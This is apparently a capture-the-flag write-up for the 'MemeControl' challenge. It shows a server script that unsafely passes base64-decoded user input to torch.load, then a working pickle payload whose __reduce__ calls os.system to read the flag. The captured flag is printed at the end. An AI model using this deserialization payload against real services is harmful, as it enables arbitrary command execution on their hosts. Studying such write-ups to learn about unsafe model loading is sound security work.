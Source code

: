 # MemeControl
> Internet memes are getting out of control! Submit a pytorch model that catches illegal memes to earn a flag

## About the Challenge
We have been given a zip file (You can download the file [here](memecontrol.tgz)). And if you extract the zip file, there is a python code. Here is the content of the source code

```python
import io
import torch
import base64

banner = \
'''
8""8""8                   8""""8                                      
8  8  8 eeee eeeeeee eeee 8    " eeeee eeeee eeeee eeeee  eeeee e     
8e 8  8 8    8  8  8 8    8e     8  88 8   8   8   8   8  8  88 8     
88 8  8 8eee 8e 8  8 8eee 88     8   8 8e  8   8e  8eee8e 8   8 8e    
88 8  8 88   88 8  8 88   88   e 8   8 88  8   88  88   8 8   8 88    
88 8  8 88ee 88 8  8 88ee 88eee8 8eee8 88  8   88  88   8 8eee8 88eee 
'''

try: 
    print(banner)
    base64_string = input("Send the base64 encoded model: ")
    bytes_data = base64.b64decode(base64_string)

    print("Evaluating the model ...")
    device = torch.device("cpu")
    model = torch.load(io.BytesIO(bytes_data), map_location=device)
    model.eval()
    print("Finished evaluating the model!")
except Exception as e:
    print(f"Ooops, this model is no good: {e}".format(e))
```

This Python code loads a PyTorch model that has been encoded in base64 format. It starts by printing a banner, which is just a string that contains some ASCII art. Then, it reads a base64-encoded model from standard input and decodes it using the `base64.b64decode()` function. The resulting byte string is then used to load a PyTorch model using the `torch.load()` function. The `map_location` argument is set to cpu, which means that the model is loaded onto the CPU device. Finally, the loaded model is set to evaluation mode using the `model.eval()` function.

## How to Solve?
To solve this, i searched about torch vulnerability and I found this [PyTorch issue](https://github.com/pytorch/pytorch/issues/52596) on GitHub. So I tried to use [Python Pickle RCE](https://exploit-notes.hdks.org/exploit/web/framework/python/python-pickle-rce/) payload, and here is the payload that I used to solve the chall

```python
import pickle
import base64
import os

class RCE:
    def __reduce__(self):
        cmd = ('cat flag')
        return os.system, (cmd,)

if __name__ == '__main__':
    pickled = pickle.dumps(RCE())
    print(base64.urlsafe_b64encode(pickled))
```

So, you need to run the code first to get the base64 payload, and then input the payload on the server to obtain the flag

![flag](images/flag.png)

```
midnight{backd00r5_ar3_c00l_wh3n_th3Y_ar3_yoUR5}
```